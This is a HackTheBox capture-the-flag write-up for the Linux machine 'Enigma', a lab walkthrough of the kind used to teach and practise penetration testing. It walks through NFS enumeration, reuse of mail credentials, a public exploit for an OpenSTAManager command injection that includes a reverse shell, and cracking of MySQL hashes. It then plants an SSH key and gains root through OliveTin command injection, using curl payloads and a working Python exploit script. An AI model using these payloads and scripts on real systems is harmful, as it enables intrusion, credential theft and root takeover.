## Machine Summary

- **Name:** Enigma
- **Platform:** HackTheBox
- **OS:** Linux
- **Difficulty:** Easy
- **XP Reward:** 585
- **Key Vulnerability:**
  - **CVE-2025-69212**: OpenSTAManager has an OS Command Injection in P7M File Processing
  - **CVE-2026-27626**: OliveTin vulnerable to OS Command Injection via `password` argument type and webhook JSON extraction bypasses shell safety checks

---

By routine, after starting the machine, I added the machine IP to my `/etc/hosts` file:

```bash
echo "<MACHINE_IP> enigma.htb" | sudo tee -a /etc/hosts
```

For inital enumeration, I used `nmap` to scan the machine and identify open ports and services.

```bash
sudo nmap -sC -sV --open -vv -p- -T3 enigma.htb
```

We have quite many ports open:

```text
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Enigma Corp \xE2\x80\x94 Managed IT Solutions
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: STLS TOP PIPELINING SASL RESP-CODES UIDL AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34962/udp6  mountd
|   100005  1,2,3      37268/udp   mountd
|   100005  1,2,3      38427/tcp   mountd
|_  100005  1,2,3      59847/tcp6  mountd
143/tcp   open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: listed Pre-login capabilities OK LOGINDISABLEDA0001 post-login ID LOGIN-REFERRALS STARTTLS more IMAP4rev1 ENABLE have LITERAL+ SASL-IR IDLE
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: listed Pre-login capabilities OK AUTH=PLAINA0001 ID LOGIN-REFERRALS post-login more IMAP4rev1 ENABLE have LITERAL+ SASL-IR IDLE
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_pop3-capabilities: USER TOP PIPELINING SASL(PLAIN) RESP-CODES UIDL AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  nfs      3-4 (RPC #100003)
38427/tcp open  mountd   1-3 (RPC #100005)
41213/tcp open  nlockmgr 1-4 (RPC #100021)
47839/tcp open  status   1 (RPC #100024)
56731/tcp open  mountd   1-3 (RPC #100005)
57239/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the result, we can see that there are several services running, including SSH, HTTP, POP3, IMAP, and NFS. Here we have port NFS open, which is interesting because it can be used to mount remote file systems. We will start with it first, let check the NFS shares available on the machine:

```bash
showmount -e enigma.htb
```

Nice, we have a share `/srv/nfs/onboarding` and it is accessible to everyone:


Mount it to our local machine:

```bash
sudo mkdir -p /mnt/enigma
sudo mount -t nfs enigma.htb:/srv/nfs/onboarding /mnt/enigma -nolock
```

Navigate to the mounted directory, we have a file `New_Employee_Access.pdf`. Open it and get a subdomain `mail001` for mail sever with credentials of `kevin`:


Add the subdomain to `/etc/hosts` and access it. Check for the information of the mail server in About tab, we know that it runs on **Roundcube Webmail 1.6.16**:


As usual, after knowing the software with exact version, I search for the public vulnerabilities of it on Internet. Nothing intersting found. I check the mail in Inbox and found a mail:


It is the congratulation mail for Kevin's onboarding. We can know more 1 user from this mail, which is `sarah` from the Account Department. Try to dig around for a while but i can't find anything useful. Then I check the nmap result again and found that the machine exposes IMAP and POP3 services. I try to use the credentials of `kevin` to login to the IMAP service:

```bash
telnet enigma.htb 143
```

But it seems that we can not authenticate using plain text with non-secure connection:


So I try to use `openssl` to connect to the IMAP service with SSL:

```bash
openssl s_client -connect enigma.htb:993 -crlf
```

After logging in with `kevin`'s credentials, I check the inbox but it is like the webmail, nothing useful found.

```bash
a LOGIN kevin <PASSWORD>
a LIST "" "*"
a SELECT INBOX
a FETCH 1 BODY[TEXT]
```

At this point, I stuck for a long time. I have tried to check the POP3 service but it is the same as IMAP, I back to scan the website and mail domain again but still nothing. Then I think about the credentials reuse vulnerability, I try the same password of `kevin` to login IMAP service with `sarah`'s username. And it works!


Read the mail in INBOX, we collect `admin` credentials and a new sub domain `support_001`:


Add the subdomain to `/etc/hosts` and access it. It is a login page for **OpenSTAManager**. Logging with `admin` credentials, we can access the dashboard. Check the information, we can see that it is running **OpenSTAManager 2.9.8**:


I researched the publicly known vulnerabilities affecting this version and found [CVE-2025-69212 advisory](https://github.com/devcode-it/openstamanager/security/advisories/GHSA-25fp-8w8p-mx36). It is a critical OS command injection vulnerability in OpenSTAManager's P7M (signed XML) file decoding functionality. The vulnerability is caused by the application passing a user-controlled `.p7m` filename directly to PHP's `exec()` function without proper shell escaping.

In short, the application fails to properly sanitize the filename before using it in a system command, allowing an attacker to inject arbitrary OS commands. The above advisory provides a detailed explanation of the vulnerability's root cause and exploitation mechanism, you can read more about it.

I use script from this [repository](https://github.com/BridgerAlderson/CVE-2025-69212-PoC) for faster exploitation. The script requires PHPSESSID cookie so you need to login to the OpenSTAManager and get the cookie from your browser. I will test the script to run the command `id` to check if it works:

```bash
python3 exploit.py -t "http://support_001.enigma.htb/" -c "<PHPSESSID_COOKIE>" -u "admin" -p "<ADMIN-PASSWORD>" --cmd "id"
```



The result confirms that the target vulnerable and the expoit script works. Start a listener on your machine to catch the reverse shell:

```bash
nc -lvnp 4444
```

Now we can use the script to get a reverse shell with available `--reverse-shell` option:

```bash
python3 exploit.py -t "http://support_001.enigma.htb/" -c "<PHPSESSID_COOKIE>" -u "admin" -p "<ADMIN-PASSWORD>" --reverse-shell <YOUR_IP> 4444
```

We have successfully "RCE" into the machine as `www-data` user and in the `/var/www/html/openstamanager` directory:


Check the `/home` directory, we see that there are 4 users: `haris`, `it`, `kevin`, and `sarah`. We do not have any permission of any of their home directories:


We need to find the credentials of one of the users for lateral movement. I check the `/var/www/html/openstamanager` directory and see few config files:


Check each file, we found database credentials in `config.inc.php` file:


Use command `ss -tulnp` to check the listening ports, we can see that the machine is running MySQL service on port 3306 so we can use the credentials to connect to the database `openstamanager`. First, we need to upgrade our shell to fully interactive shell. I use `python3` to spawn a TTY shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm 
Press Ctrl+Z # Background the process
stty raw -echo;fg # Set the terminal to raw mode and foreground the process
```

Then we can use `mysql` command to connect to the database `openstamanager`:

```bash
mysql -u brollin -p
```

Inside MySQL, select the database and check the tables:

```sql
USE openstamanager;
SHOW TABLES;
```

We found a table `zz_users` which might contain the credentials of the users. Check the content of the table:

```sql
SELECT * FROM zz_users;
```

We got 2 hashed passwords for users `haris` and `admin`. Because we already have `admin` credentials, we can focus on cracking the password of `haris`. Save the hash of `haris` and use `john` to crack it:

```bash
echo "<HASH>" > haris.txt
john --wordlist=/usr/share/wordlists/rockyou.txt haris.txt
```



Next, we use the password to login as `haris` and get the user flag:

```bash
su -u haris
pwd
ls -la
cat user.txt
```



## Privilege Escalation

First, check if we have `sudo` privileges:

```bash
sudo -l
```

Unfortunately, we do not have any `sudo` privileges. I have checked for SUID binaries and cron jobs but nothing interesting found. Digging around the system for a while, I found an directory `/opt/OliveTin` which is owned by `root`. Check the content of the directory:



After searching, I found that `OliveTin` is a tool aimed at less technical users, it lets you run complex command-line scripts by simply clicking buttons on a webpage. Check the `config.yaml` file, the service is running on port 1337:


Read through the congfig file but find nothing interesting, we have a hash password of `alice` user in admins group but it is argon2id hash so we cannot crack it easily.


Use `ss -tunlp` command and see that port 1337 is opening locally so we need to port forwarding to access the webpage of OliveTin. In your host machine, run:

```bash
ssh -L 1337:127.0.0.1:1337 haris@enigma.htb
```

It occurs "Permission Denied" and requires publickey to connect via SSH. The `/home/haris` directory does not have ssh folder so we need to create new and add our controlled publickey. First, generate a pair of SSH key:

```bash
ssh-keygen -t rsa -f key_clone -N ""
chmod 600 key_clone
```

Then I copy the public key `key_clone.pub` and paste it into the `~/.ssh/authorized_keys` file of `haris` user on the target machine. Inside reverse shell, run:

```bash
mkdir -p ~/.ssh
echo "<PASTE_PUBLIC_KEY_HERE>" >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

After setting the publickey, you can also login to machine via SSH. Retry forwarding the OliveTin port:

```bash
ssh -L 1337:127.0.0.1:1337 haris@enigma.htb -i key_clone
```

Browse `http://localhost:1337` to access OliveTin homepage. It runs on version 3000.10.0:


Research that OliveTin version, I found this [advisory](https://github.com/OliveTin/OliveTin/security/advisories/GHSA-49gm-hh7w-wfvf). It is critical OS Command Injection vulnerability marked as CVE-2026-27626 which has CVSS score 9.9/10. Above advisory has 2 independent vectors but in this machine we just use vector 1: `password` type bypasses shell safety check.

In short, the root cause of vulnerability is that OliveTin's shell mode safety check (`checkShellArgumentSafety`) blocks several dangerous argument types but not `password`. The attackers can abuse that to inject shell metacharacters to execute malicious OS command. The vulnerable code:



As you can see, the `password` type is not restricted and the command is executed via shell (`sh -c`). The attacker can inject characters like `$()`, `;`, `#`,... to execute arbitrary command. So now our attack path for this machine is:

```text
1. Find the action contains `password` type argument
2. Inject it with our controlled commands
3. Craft the payload and send the POST request to the API endpoint
4. Our commands will be executed by root! (because the OliveTin service in this machine is running with root privilege).
```

First, we need to find the action with `password` argument. I initially located an OliveTin configuration file in `/opt`, but inspecting it revealed an incomplete template with several actions missing to the webpage. Checking standard service paths led to `/etc/OliveTin/config.yaml`, which turned out to be the active configuration containing all registered actions. Read the config file and we have the `backup_database` action contains `password` type argument:



We also know the actual executed command when clicking button on webpage is `mysqldump` and list of arguments need to passed. Step 1 finished !

At step 2, we inject our command to the `db_pass` argument, I will use `id` to test:

``` text
"arguments": [
      {"name":"db_user","value":"backup_svc"},
      {"name":"db_pass","value":"'\'';id;echo '\''"},
      {"name":"db_name","value":"production"}
    ]
```

Continue to step 3, we will craft the payload and send the POST request to the API endpoint. In the original [advisory](https://github.com/OliveTin/OliveTin/security/advisories/GHSA-49gm-hh7w-wfvf), I use the same API endpoint in PoC section of Vector 1 but it does not works.
Research a bit, I found this [Swagger site](https://docs.olivetin.app/api/swagger/3k/) contains all OliveTin 3k API endpoints. I will use the `StartAction` endpoint to start an action (execute command), the request body:


But the responses from server is just a string name `executionTrackingId` when success, so we need to use another endpoint `ExecutionStatus` that receive `executionTrackingId` and response full log detail of action:




We have identified all endpoints need to use, now craft a payload and send it using `curl`. First, getting `executionTrackingId`:

```bash
curl -X POST http://localhost:1337/api/olivetin.api.v1.OliveTinApiService/StartAction \
  -H 'Content-Type: application/json' \
  -d '{
    "bindingId": "backup_database",
    "arguments": [
      {"name":"db_user","value":"backup_svc"},
      {"name":"db_pass","value":"'\'';id;echo '\''"},
      {"name":"db_name","value":"production"}
    ]
  }'
```



Then, use it to send request to `ExecutionStatus` endpoint:

```bash
curl -X POST http://localhost:1337/api/olivetin.api.v1.OliveTinApiService/ExecutionStatus \
  -H 'Content-Type: application/json' \
  -d '{
  "executionTrackingId": "7b4c2b4f-f033-4481-9ceb-8603977da616",
  "actionId": "backup_database"
}'
```

BOOM!!! We have successfully manipulated the `mysqldump` command and can execute our controlled command with root privilege:



I write a Python3 script `exploit.py` to combine 2 steps automatically and parse the output prettier:

```python
#!/usr/bin/env python3

import requests
import time
import sys

BASE = "http://localhost:1337/api/olivetin.api.v1.OliveTinApiService"

cmd = sys.argv[1] if len(sys.argv) > 1 else "id"

r = requests.post(f"{BASE}/StartAction", json={
    "bindingId": "backup_database",
    "arguments": [
        {"name": "db_user", "value": "backup_svc"},
        {"name": "db_pass", "value": f"';{cmd};echo '"},
        {"name": "db_name", "value": "production"}
    ]
}, verify=False)

eid = r.json()["executionTrackingId"]
print(f"[+] Execution ID: {eid}")

time.sleep(2)

r = requests.post(f"{BASE}/ExecutionStatus", json={
    "executionTrackingId": eid,
    "actionId": "backup_database"
}, verify=False)

data = r.json()
print("\n" + data.get("logEntry", {}).get("output", "No output").rstrip())
```

Run `python3 exploit "<CMD>"` to use it:


Now, if you only need the root flag, executing `cat /root/root.txt` is enough to finish the box. Continue if you want to establish full root access.

